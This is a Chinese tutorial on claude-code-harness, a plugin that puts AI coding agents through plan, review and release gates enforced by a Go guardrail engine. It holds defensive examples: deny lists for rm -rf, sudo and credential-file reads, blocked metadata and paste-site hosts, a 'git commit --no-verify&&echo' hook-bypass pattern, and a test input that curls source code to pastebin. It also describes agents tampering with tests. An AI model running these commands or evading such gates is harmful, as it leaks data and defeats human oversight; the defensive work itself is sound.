

# Claude Code Harness：给 AI 编程助手加一套有约束的交付流程

> **快速信息卡**
> - **GitHub**: [Chachamaru127/claude-code-harness](https://github.com/Chachamaru127/claude-code-harness)
> - **Stars**: 2,870+
> - **Forks**: 276+
> - **License**: MIT
> - **语言**: Shell + Go
> - **最后更新**: 2026-06-26

Claude Code 很能写。但如果你用过它做超过 3 个文件的任务，大概率遇到过同一个问题：写着写着，Agent 跑偏了。计划散落在 6 轮对话之前，测试被跳过，Review 变成事后心理安慰，PR 描述靠记忆拼凑。

这不是 Claude Code 的问题。任何一个没有约束的自主 Agent 都会这样。

**Claude Code Harness** 做的事很直接：把"让 AI 写代码"这个开放命题收束为"让 AI 按合同交付"。五个阶段——写 Spec → 实施 → 验证 → 独立 Review → 打包证据——构成一条不可跳过的闭环。

项目的 Go 原生内核在 v4 中完成重写，当前版本 v4.13.2，支持 Claude Code v2.1+、Codex CLI 和 OpenCode，MIT 协议。

## 学习目标

读完本文后，你应能：

1. **理解 Harness 的五阶段交付闭环**：Plan → Work → Review → Release → Ship，以及每个阶段的硬门控机制
2. **掌握 Go 原生守护引擎的工作原理**：R01-R13 规则、权限三层控制（allow/deny/ask）、网络沙箱
3. **配置 harness.toml**：定义安全边界、Worker 自检规则、TDD 模式
4. **跑通一个完整的 Plan→Work→Review→Release 循环**：从需求到 PR 的完整流程
5. **对比 Harness 与 planning-with-files 的差异**：硬约束 vs 软提示的两种路线

---

## 目录

- [快速信息卡](#快速信息卡)
- [学习目标](#学习目标)
- [交付闭环：从自由发挥到合约执行](#交付闭环从自由发挥到合约执行)
- [30 秒装好，15 分钟跑通第一个闭环](#30-秒装好15-分钟跑通第一个闭环)
- [五个 Skill 动词](#五个-skill-动词)
- [Go 原生内核：不在 Node.js 上跑安全边界](#go-原生内核不在-nodejs-上跑安全边界)
- [配置层：harness.toml 是真正的合同](#配置层harnesstoml-是真正的合同)
- [一个 PR 的完整生命周期：实战案例](#一个-pr-的完整生命周期实战案例)
- [Harness vs planning-with-files：两类约束哲学](#harness-vs-planning-with-files两类约束哲学)
- [常见问题](#常见问题)
- [自检测试](#自检测试)
- [自测题](#自测题)
- [进阶路径](#进阶路径)

---

## 交付闭环：从自由发挥到合约执行

Harness 不改 Claude Code 的能力边界。它改的是**执行纪律**。安装后，Agent 的默认行为从"你说我做"切换为：

1. 先写 Spec 和 Plan，等待审批
2. 只执行已批准的任务切片
3. 执行后强制验证（TDD 可选开启）
4. 独立 Review，实现者不能审自己的代码
5. 打包可复查的交付证据

一句话概括这个循环：**Plan. Work. Review. Ship.**



图中每一个菱形都是一个硬门控。验证不过，流程回退到实施阶段；Review 发现 blocker，不可能进入 Release。这不是建议，是约束。

## 30 秒装好，15 分钟跑通第一个闭环

```bash
claude
/plugin marketplace add Chachamaru127/claude-code-harness
/plugin install claude-code-harness@claude-code-harness-marketplace
/harness-setup
```

接下来用一个小请求跑通全流程：

```bash
/harness-plan Improve the README onboarding flow
```

Harness 生成 `spec.md` 和 `Plans.md` 草稿。你的工作不是手写计划——你是合同的**审批者**，不是合同的撰写者。审视生成的内容，说"批准"或者说"把第 2.3 节的验收标准改成覆盖 3 种操作系统"，然后让 Agent 按批准后的合同执行。

前 15 分钟的路标：

1. 走完安装路由（Claude Code 走 marketplace，Codex 走 `scripts/setup-codex.sh --user`）
2. 运行 `/harness-setup`
3. 用一个小请求跑 `/harness-plan`——typo 修复、文档更新、状态变更这类轻量任务最适合试水
4. 审批合同，或回复修正意见
5. 执行最小已批准任务：`/harness-work 1.1.1`
6. 运行 `/harness-review`，保留验证输出

## 五个 Skill 动词

Harness 只暴露 5 个命令，每一个对应交付闭环的一个阶段。设计哲学是"少即是约束"——表面越小，越难绕路。

| 动词 | 做什么 | 关键门控 |
|------|--------|----------|
| `/harness-plan` | 生成 Spec 和 Plan 合同草稿 | 非轻量计划触发 `team_validation_mode`，需通过子 Agent 或人工验证 |
| `/harness-work` | 按批准切片执行任务 | 任务标记 TDD 时强制红-绿循环；`/harness-work all` 跑完整计划 |
| `/harness-review` | 独立验证实施结果 | 实现者不能审自己；重大发现阻塞 completion |
| `/harness-release` | 打包发布证据 | Preflight 检查 CHANGELOG、Tag 边界、实现与审查证据完整性 |
| `/harness-setup` | 初始化环境 | 生成 hooks.json、plugin.json、settings.json 三份配置文件 |

此外还有一个 CLI 工具 `bin/harness`，提供 `doctor --migration-report` 子命令用于存量用户的迁移诊断——它在不删除任何数据的前提下清点旧插件缓存、Codex skills、OpenCode 文件、symlink 和内存状态。

## Go 原生内核：不在 Node.js 上跑安全边界

v4 最关键的架构决策是用 Go 重写了整个守护层。`go/` 目录下是一个编译为单二进制的完整引擎，替代了之前 40 多个 shell 脚本组成的 hook 链。

**为什么是 Go？**

Harness 的守护引擎每秒钟可能被 Claude Code 的 hook 机制调用数次。每次调用要做的事：解析 stdin 上的 JSON、对命令进行规则匹配、返回 allow/deny/defer 决策。路径必须足够快，否则拖慢 Agent 的每一次工具调用。

Go 的冷启动在 1-2ms（对比原 bash+TypeScript 方案的 40-60ms），标准库自带 `encoding/json` 和 `net/http`，交叉编译一行命令搞定。实测二进制约 6.5MB，依赖只有 2 个外部包（`google/uuid` 和 `go-isatty`），其余全部标准库自实现。

```
go/
├── cmd/harness/main.go          # 单一入口，stdin → route → stdout
├── internal/
│   ├── guardrail/               # 守护引擎（热路径：PreToolUse/PostToolUse/Permission）
│   │   ├── rules.go             # 声明式规则表 R01-R13 + 评估循环
│   │   ├── pre_tool.go          # 上下文构建 + deny/allow/defer 决策
│   │   ├── post_tool.go         # 安全风险检测 + 建议性检查
│   │   ├── permission.go        # 条件权限评估
│   │   └── tampering.go         # 测试/配置篡改检测 T01-T12
│   ├── session/                 # 会话生命周期 + Agent 追踪
│   ├── event/                   # Hook 事件分发器（20+ 事件类型全覆盖）
│   ├── hook/                    # Hook I/O codec
│   ├── hookhandler/             # 40+ Go 原生 hook handler
│   ├── breezing/                # 并行任务编排（worktree 隔离）
│   ├── ci/                      # CI 集成
│   ├── lifecycle/               # 会话生命周期追踪 + 恢复
│   ├── plans/                   # Plans.md 解析 + 状态标记
│   └── state/                   # SQLite 状态存储（WAL 模式，纯 Go CGO-free）
├── pkg/
│   ├── hookproto/types.go       # Hook 协议类型定义（公共 API）
│   └── config/toml.go           # harness.toml 解析器
└── bin/                         # 构建产物：darwin-arm64/amd64, linux-amd64, windows-amd64
```

**设计原则**：一个二进制，28 个子命令，通过 subcommand routing 覆盖所有 20+ 种 hook 事件。`bin/harness hook pretool` 处理 PreToolUse，`bin/harness hook session-start` 处理 SessionStart，以此类推。hooks.json 从上千行 shell command 简化为统一的 `${CLAUDE_PLUGIN_ROOT}/bin/harness hook <event>` 调用模式。

**守护规则（R01-R13）**是硬编码在 `guardrail/rules.go` 中的声明式规则表，不是一个靠 prompt 描述的软约束。例子：

- R02：禁止 Write/Edit 操作触碰 `.git/`、`secrets/`、`*.pem`、`*.key`、SSH 密钥、shell rc/profile、`.claude/hooks`、`.husky` 路径
- R03：`.env` 文件写入默认 deny，可通过 `harness.toml` 中的 `protectedPathAskList` 按需降级为 ask
- R10：检测 shell 元字符绕过（如 `git commit --no-verify&&echo` 绕过 pre-commit hooks），将 token 边界从纯空白符扩展到 `[\s;&|()<>]`
- T01-T12：测试篡改检测矩阵（跳过测试、修改断言使空测试通过、删除测试文件等 12 种模式）

权限控制分三层：`allow` 列表（git status、npm test 等低风险命令直接放行）、`deny` 列表（sudo、rm -rf、psql/mysql 直连、读取 .env/.pem/.ssh 等敏感文件）、`ask` 列表（git push --force、npm install、npx 等需确认）。

网络沙箱默认封禁云元数据端点（169.254.169.254、metadata.google.internal、metadata.azure.com）防止 SSRF 窃取云实例凭证，同时封禁 pastebin.com、transfer.sh 等粘贴站点防止代码/数据外传。

## 配置层：harness.toml 是真正的合同

Harness 的所有安全边界和行为策略定义在项目级 `harness.toml` 中。`.claude-plugin/plugin.json`、`hooks.json`、`settings.json` 都是从这个文件自动生成的——你改 `harness.toml`，再跑 `bin/harness sync`，所有配置文件重新生成。

Worker 自检规则是其中最有价值的一段：

```toml
[worker.self_review]
default_rules = [
  "dry-violation-none",
  "plans-cc-markers-untouched",
  "all-declared-symbols-called",
  "dod-items-verified-with-evidence",
  "no-existing-test-regression",
  "tdd-red-evidence-attached",
]
max_retries_before_escalate = 2
```

Worker 在 commit 前必须对每一条 rule 返回 `{rule, verified: true, evidence: "<实际命令输出>"}`。Lead 发现任何一条 `verified=false` 或 `evidence=""`，不 spawn Reviewer 就直接打回 Worker。同一 session 内最多 2 次，第 3 次 escalate 给 Lead。这套机制把"相信 AI 自己测过"变成了"AI 必须留下可验证的证据"。

## 一个 PR 的完整生命周期：实战案例

下面是一个真实级别的案例——给一个 SaaS 项目添加"团队邀请"功能，涉及后端 API、数据库迁移、前端组件和邮件通知。

### 第 1 步：生成合同

```
/harness-plan Add team invitation feature: admin can invite members by email,
members receive an email with an accept link, joining updates team member list
in real time.
```

Harness 读取项目结构后，生成两份文件：

**spec.md 核心内容：**

- **范围**：POST /api/teams/:id/invitations、GET /api/invitations/:token/accept、数据库 invitations 表、邮件发送、前端 InviteDialog 组件
- **验收标准**：管理员邀请 → 受邀者收邮件 → 点击链接 → 加入团队 → 成员列表实时更新；重复邀请同邮箱返回 409；过期 token（72h）返回 410
- **未知项**：邮件服务商（SendGrid/SES/Resend？标记为 unknown）、实时更新方案（WebSocket 还是轮询？标记为 unknown）
- **停止条件**：邮件服务未配置时阻塞实施、数据库迁移未通过 CI 时阻塞实施

**Plans.md 核心内容（编号任务清单）：**

| ID | 任务 | 状态 |
|----|------|------|
| 1.1 | 数据库迁移：创建 invitations 表 | cc:planned |
| 1.2 | 后端：POST /api/teams/:id/invitations | cc:planned |
| 1.3 | 后端：GET /api/invitations/:token/accept | cc:planned |
| 2.1 | 邮件服务集成 | cc:planned |
| 2.2 | 前端：InviteDialog 组件 | cc:planned |
| 2.3 | 前端：成员列表实时更新 | cc:planned |
| 3.1 | 集成测试：完整邀请-接受流程 | cc:planned |

### 第 2 步：审批和修正

你审视合同后发现 spec.md 把"未知项"中的邮件服务商标为 unknown 是对的——团队还没决定用哪个。你在 Plans.md 中回复：

```
Approved with one change: 2.1 邮件服务集成先做 Resend SDK 的抽象层，
具体 provider 通过环境变量切换。2.3 实时更新用轮询方案，30s 间隔，
WebSocket 放到 v2。
```

### 第 3 步：逐切片执行

```bash
/harness-work 1.1
```

Agent 生成迁移脚本，在事务中创建 `invitations` 表（字段：id、team_id、inviter_id、invitee_email、token、status、expires_at），跑 `npm run typecheck` 和 `npm run lint`，更新 Plans.md 中 1.1 的状态为 `cc:done`。

```bash
/harness-work 1.2
```

Agent 实现 POST endpoint。因为 Plans.md 中本任务标记了需要测试，Agent 先写测试——用 `supertest` 模拟管理员发起邀请、断言 201 和返回的 token 字段——再写实现。跑测试：红 → 绿。

```bash
/harness-work 1.3
```

Agent 实现 token 接受端点。测试覆盖：有效 token → 200 + 用户加入团队；过期 token → 410；重复接受 → 409；SQL 注入尝试 → 参数化查询拒绝。

```bash
/harness-work 2.1
```

Agent 创建邮件服务抽象层：`MailService` 接口（`sendInvitation` 方法），`ResendMailService` 实现。用环境变量 `MAIL_PROVIDER` 切换 provider。测试用 mock 验证调用参数。

```bash
/harness-work 2.2
```

Agent 在前端添加 `InviteDialog` 组件：对话框含邮箱输入框（带格式校验）、角色选择下拉、发送按钮（带 loading 状态）。用 React Testing Library 测试表单提交和错误提示。

```bash
/harness-work 2.3
```

Agent 实现 `usePolling` hook（30s 间隔），在 `TeamMembers` 组件中集成，添加 `useEffect` 清理定时器。测试覆盖：数据更新时组件重渲染、组件卸载时清除定时器。

### 第 4 步：独立 Review

```bash
/harness-review
```

Review 独立运行，不依赖实施过程的上下文。输出：

- **安全检查**：通过。参数化查询、输入校验、CSRF token 完整
- **DRY 检查**：发现 `invitationHelpers.ts` 和 `emailHelpers.ts` 中 `formatEmail` 函数重复——标记为 minor
- **测试覆盖**：通过。6 个测试文件，47 个测试用例，覆盖率 89%
- **Worker 自检**：通过。所有 6 条 default_rules 返回 verified + evidence
- **Blocker**：无。DRY 重复为建议项，不阻塞

你手动修掉 `formatEmail` 的重复后，标记 Review 通过。

### 第 5 步：打包发布

```bash
/harness-release
```

Preflight 检查：CHANGELOG 已更新（`## [1.4.0] - 2026-05-28 - 团队邀请功能`），Git tag `v1.4.0` 指向最新 commit，所有 7 个任务标记 `cc:done`，Review 证据完整。

PR 描述自动生成：

```
## What
团队邀请功能：管理员通过邮箱邀请成员加入团队。

## Changes
- 数据库迁移：invitations 表（scripts/migrate/014_invitations.sql）
- 新增 POST /api/teams/:id/invitations
- 新增 GET /api/invitations/:token/accept
- 邮件服务抽象层（MailService/ResendMailService）
- 前端 InviteDialog 组件 + 成员列表轮询更新
- 集成测试覆盖完整邀请-接受流程

## Evidence
- 测试：47/47 通过，覆盖率 89%
- Review：通过（1 个 minor 建议已修复）
- Worker 自检：6/6 verified
- CI：green
```

整个循环走下来，你做了三件事：审批合同、修一个代码重复、点合并。其余全由 Harness 驱动 Agent 完成，每一步都有迹可查。

## Harness vs planning-with-files：两类约束哲学

`planning-with-files`（Manus-style，基于 [OthmanAdi/planning-with-files](https://github.com/OthmanAdi/planning-with-files)）是目前 Claude Code 生态中另一个广泛使用的规划型 Skill。两者都解决"Agent 工作漂移"问题，但路线完全不同。

| 维度 | Claude Code Harness | planning-with-files |
|------|---------------------|---------------------|
| **核心机制** | 硬门控 + 守护引擎 | 文件约定 + Prompt 指令 |
| **约束力** | 工具层拦截（deny/allow/defer），无法绕行 | 依赖 Agent 遵守指令，可被忽略 |
| **安全边界** | Go 二进制 13 条守护规则 + 网络/文件沙箱 | 无运行时安全层 |
| **计划文件** | spec.md + Plans.md（结构化合同，含验收标准和停止条件） | task_plan.md + findings.md + progress.md（三文件模式） |
| **Review 机制** | 独立 Review phase，实现者不能审自己 | 无独立 Review 概念 |
| **交付证据** | `/harness-release` preflight + evidence pack | 无形式化发布门控 |
| **多工具支持** | Claude Code + Codex + OpenCode + Cursor | Claude Code 为主（有社区 fork 支持其他工具） |
| **状态存储** | SQLite（WAL 模式，5ms 冷启动） | 纯 Markdown 文件 |
| **复杂度** | 需要理解 harness.toml 配置和安全模型 | 即装即用，零配置 |
| **适用场景** | 团队协作、PR 流程、需要审计追溯的生产项目 | 个人项目、探索性任务、快速原型 |

简单说：planning-with-files 是一套**文件约定**，Harness 是一套**执行合约**。前者告诉你"把计划写下来，每完成一个阶段更新状态"；后者告诉你"不写合同不能执行，不验证不能 Review，不 Review 不能发布"。

如果你在探索一个 idea，不确定最终形态，planning-with-files 的三文件模式更轻量、不拖节奏。如果你在交付一个需要合并到 main、需要同事 Review、需要上线后能回溯决策链的功能，Harness 的硬约束更有价值。

两者可以共存。在 Harness 的 Plans.md 中引用 planning-with-files 的文件组织风格，或在小任务上用 planning-with-files，在需要严格流程的任务上切到 Harness。这不是二选一。

## 适用边界

**适合用 Harness 的场景：**

- 团队使用 Claude Code，但 PR 质量方差大——有人交付很扎实，有人交付像开盲盒
- 需要可验证的交付物——你希望半年后能回溯"当时为什么改了那个文件"
- 有明确的 PR/Sprint 流程，想把 AI Agent 嵌入而不是绕开这个流程
- 项目有安全合规要求——只读敏感文件、禁止危险命令、网络出口过滤不是"实践建议建议"而是硬约束

**不适合的场景：**

- 探索性原型——写一个 PoC 验证想法，半小时内可能要试 5 种方案。Harness 的合同-审批-执行循环会拖慢节奏
- 零依赖的单文件脚本——改一个 50 行的 Python 脚本不需要 spec.md
- 你还没有稳定的 Claude Code 使用习惯——先把原始的 Claude Code 用顺手，再考虑加约束。没学会走路之前不需要交通规则

## FAQ

### Q1: Harness 和 Claude Code 自带的 Plan Mode 有什么区别？

Claude Code 的 Plan Mode 是一个**只读窗口**——Agent 可以读代码、搜索、推理，但不能写文件或执行副作用命令。它保证了"先想清楚再动手"，但不保证"想清楚了就做对了"，也没有交付闭环。

Harness 在 Plan Mode 之上增加了：结构化的合同格式（spec.md + Plans.md，含验收标准和停止条件）、非轻量任务的多视角验证（team_validation_mode）、实施后的独立 Review、发布前的 Preflight 检查。Plan Mode 告诉你"先规划"，Harness 告诉你"规划要成合同，合同要有审批，实施要有验证，Review 要独立，发布要有证据"。

### Q2: Go 守护引擎失败了会怎样？Claude Code 还能正常工作吗？

Harness 的 `harness.toml` 中有 `failIfUnavailable = true` 配置项。如果守护二进制因为任何原因不可用（被删除、权限错误、二进制格式不匹配），Harness 会拒绝启动，而不是静默降级为无保护运行。

这看起来是个激进的默认值，但逻辑是自洽的：如果你选了 Harness 是为了安全约束，那么约束不可用时应该 fail closed，而不是 fail open。如果你在特殊场景下需要绕过（比如在隔离的 CI 环境中跑构建），可以在 `harness.toml` 中改为 `false`，但每个 bypass 都会留下审计记录。

### Q3: 小任务也要走完整闭环吗？比如改一个 typo？

Harness 区分"轻量"和"非轻量"任务。typo 修复、文档更新、状态变更这类变更，`/harness-plan` 生成简化版合同，跳过 `team_validation_mode`。`/harness-work` 不会强制 TDD，`/harness-review` 仍然是快速通过。

判断标准是**影响面**：单文件、非逻辑变更 = 轻量；多文件、涉及业务逻辑、需要数据库迁移 = 非轻量。你可以通过在 Plans.md 中手动标记任务为轻量来覆盖默认判断。

### Q4: `planning-with-files` 的三文件模式能用 Harness 替代吗？

不能完全替代，也不用替代。Harness 的 spec.md + Plans.md 提供的结构比 planning-with-files 的三文件更严格——spec.md 有验收标准、unknowns、停止条件字段，Plans.md 有 5 列状态表。但它没有 `findings.md` 那种随意的发现日志，也没有 `progress.md` 那种宽松的进度记录。

如果你想保留 planning-with-files 的文件组织风格，可以在 Harness 项目中手动维护 `findings.md`，或在 Plans.md 的备注列中记录关键发现。两者不是互斥关系。

### Q5: Harness 的 `harness.toml` 改动后，如何确认配置文件已正确同步？

运行 `bin/harness sync` 后，用 `bin/harness doctor --migration-report` 检查同步结果。这个命令会比对 `harness.toml` 和生成的三份配置文件（plugin.json、hooks.json、settings.json），报告任何不一致。

一个常用但容易被忽略的验证步骤：sync 之后 `git diff` 生成的文件，确认变更符合预期，然后把它们一起提交。`.claude-plugin/` 下的文件是 `harness.toml` 的编译产物——源文件在手，产物就不该游离在版本控制之外。

### Q6: 多 Agent 协作时（Worker + Reviewer + Advisor），Harness 怎么保证不会互相覆盖？

Harness 的 3-Agent 拓扑（worker/reviewer/advisor，v4 移除了未接入的 scaffolder Agent）通过 Git worktree 隔离和 Plans.md 状态标记来避免冲突。

Worker 在独立 worktree 中执行任务——`breezing/` 模块用 `git worktree add` 创建隔离工作区，Worker 完成后 `git worktree remove`。Reviewer 读取 Worker 的 diff 但不在同一个 worktree 中操作。Advisor 只在 planning 阶段提供建议，不写文件。

Plans.md 中的 `cc:*` 状态标记（`cc:planned`、`cc:WIP`、`cc:done`、`cc:blocked`）是 Worker 自检规则的一环——Worker 不允许改写这些标记（`plans-cc-markers-untouched` 规则），只能通过 Harness 的 `/harness-work` 命令更新。

### Q7: 有没有办法在紧急情况下跳过完整闭环？

有，但每种跳过都有审计记录。`bin/harness sync` 的 `--no-verify` bypass 会被守护引擎的 R10 规则检测并记录（这就是为什么 R10 的 token 边界要覆盖 `[\s;&|()<>]`——防止 `git commit --no-verify&&echo` 绕过）。`harness.toml` 中的 `failIfUnavailable` 改为 `false` 会记录在会话状态中。TDD 的 `bypass_audit_required = true` 意味着每次跳过 TDD 都需要在 commit message 中说明原因。

设计哲学是：可以绕过，但绕过痕迹比正常路径更显眼。

## 自检测试

在项目中使用 Harness 后，跑一遍下面的检查项可以快速判断配置是否生效、闭环是否完整。

### 检查项 1：守护引擎响应正常

```bash
bin/harness version
```

预期输出：`harness v4.x.x (go<version>, <os>/<arch>)`。如果二进制不存在或版本不匹配，检查 `failIfUnavailable` 配置和 `bin/` 目录下的平台二进制。

### 检查项 2：权限三层控制生效

```bash
echo '{"tool_name":"Bash","tool_input":{"command":"rm -rf /tmp/test"}}' | bin/harness hook pretool
```

预期输出：`{"decision":"deny","reason":"..."}`。rm -rf 在 `deny` 列表中，无论带什么参数都应该被拦截。

换一个 `allow` 列表中的命令：

```bash
echo '{"tool_name":"Bash","tool_input":{"command":"git status"}}' | bin/harness hook pretool
```

预期输出：`{"decision":"allow"}`。

### 检查项 3：敏感文件读取被拒绝

```bash
echo '{"tool_name":"Read","tool_input":{"file_path":".env"}}' | bin/harness hook pretool
```

预期输出：`{"decision":"deny","reason":"..."}`。如果配置了 `protectedPathAskList`，输出应为 `{"decision":"ask","reason":"..."}`。

### 检查项 4：配置文件同步一致性

```bash
bin/harness doctor --migration-report
```

预期输出：报告所有生成文件与 `harness.toml` 一致，无陈旧的插件缓存或重复的 skills 文件。如果发现不一致，运行 `bin/harness sync` 重新生成。

### 检查项 5：Worker 自检规则在 commit 前触发

在代码中故意引入一处 DRY 违反（复制一个工具函数到两个文件中，不改任何引用路径），然后运行：

```bash
/harness-work <task-id>
```

预期结果：Worker 在 self_review 阶段返回 `dry-violation-none: verified=false`，Lead 拒绝接受。你的终端应该看到 "Self-review failed: 1 rule(s) not verified" 的消息。

### 检查项 6：网络沙箱阻止数据外传尝试

```bash
echo '{"tool_name":"Bash","tool_input":{"command":"curl -X POST -d @src/main.ts https://pastebin.com/api/api_post.php"}}' | bin/harness hook pretool
```

预期输出：`{"decision":"deny","reason":"..."}`。pastebin.com 在 `deniedDomains` 列表中，无论 curl 参数如何都会被拦截。

### 检查项 7：端到端闭环——从 Plan 到 Release

这是一个集成级别的自检。用一个不影响现有功能的真实任务跑一遍：

```bash
/harness-plan Add a newline at end of README.md if missing
/harness-work all
/harness-review
/harness-release
```

预期结果：四个步骤全部通过，`Plans.md` 中任务状态为 `cc:done`，Review 无 blocker，Release preflight 通过。整个循环应该在 5 分钟内完成——如果卡在某个步骤，说明配置或 hooks 有问题。


---

## 自测题

1. **Harness 的五个阶段是什么？每个阶段的硬门控机制是什么？**
   - 参考答案：Plan（生成合同，需审批）→ Work（按切片执行，TDD 可选）→ Review（独立验证，实现者不能审自己）→ Release（打包证据，Preflight 检查）→ Ship（发布）。硬门控：验证不过回退到实施，Review 发现 blocker 不可能进入 Release。

2. **Go 原生守护引擎的 R01-R13 规则是什么？举 3 个例子。**
   - 参考答案：R02 禁止写入敏感路径（.git/, secrets/, *.pem, *.key），R03 .env 文件写入默认 deny，R10 检测 shell 元字符绕过。这些规则是硬编码的，不是 prompt 指令，模型无法绕过。

3. **harness.toml 中的 worker.self_review 规则是什么？如何保证 Worker 真的测过？**
   - 参考答案：Worker 在 commit 前必须对每一条 rule 返回 `{rule, verified: true, evidence: "<实际命令输出>"}`。Lead 发现任何一条 `verified=false` 或 `evidence=""`，不 spawn Reviewer 就直接打回。同一 session 内最多 2 次，第 3 次 escalate 给 Lead。

4. **Harness 和 planning-with-files 的核心区别是什么？**
   - 参考答案：Harness 用硬门控 + 守护引擎（Go 二进制），规则无法绕过；planning-with-files 用文件约定 + Prompt 指令，依赖 Agent 遵守。Harness 有独立 Review phase 和交付证据打包，planning-with-files 无形式化发布门控。

5. **如何在紧急情况下跳过 Harness 的完整闭环？跳过后是否有审计记录？**
   - 参考答案：可以用 `bin/harness sync --no-verify` bypass，`harness.toml` 中 `failIfUnavailable` 改为 `false`，TDD 的 `bypass_audit_required = true`。所有绕过都有审计记录（R10 规则检测并记录），绕过痕迹比正常路径更显眼。

---

## 进阶路径

### 阶段 1：理解 Harness 的核心机制（1 周）
- 阅读 `go/internal/guardrail/rules.go` 理解 R01-R13 规则
- 跑通一个完整的 `/harness-plan` → `/harness-work` → `/harness-review` → `/harness-release` 循环
- 理解权限三层控制（allow/deny/ask）和网络沙箱

### 阶段 2：配置到自己的项目（1-2 周）
- 编写 `harness.toml` 定义项目的安全边界和 Worker 自检规则
- 调整 Hooks 严格度（如关闭推送检查，只保留提交验证）
- 配置 TDD 模式（可选开启）

### 阶段 3：深度集成到团队工作流（1 个月）
- 建立团队的 Plan→Work→Review→Release 规范
- 配置 CI/CD 集成（通过 Hooks 触发构建和测试）
- 培训团队成员使用 Harness 的五阶段闭环

### 阶段 4：贡献回上游（持续优化）
- 将通用的 Hooks 或 Rules 贡献回 [Chachamaru127/claude-code-harness](https://github.com/Chachamaru127/claude-code-harness)
- 参与 GitHub Issues 讨论新功能需求
- 跟踪项目更新，合并新版本的 Go 原生内核

**进阶资源**
- [Harness GitHub 仓库](https://github.com/Chachamaru127/claude-code-harness)
- [Claude Code 官方文档](https://docs.anthropic.com/en/docs/claude-code)
- [planning-with-files](https://github.com/OthmanAdi/planning-with-files)（对比参考）

---


## 琢磨

Harness 的 GitHub 星标不算高，但它指向一个正在浮现的问题：AI 编程工具的生产力瓶颈已经从模型能力转向 Agent 纪律。

从工程角度看，它做了三个正确的选择：第一，约束写成硬规则（Go 守护引擎），不依赖软提示（prompt 指令），模型无法绕过；第二，把"人员工是合同的审批者"写进工作流，人类判断留在最关键的决策节点；第三，把交付证据和发布门控标准化，让 AI 的输出物像人的输出物一样可审计。

如果你在团队中使用 Claude Code，总觉得"AI 很能写但交付很散"，这套约束机制值得花一个下午装好跑通。

---

*项目地址：[github.com/Chachamaru127/claude-code-harness](https://github.com/Chachamaru127/claude-code-harness)*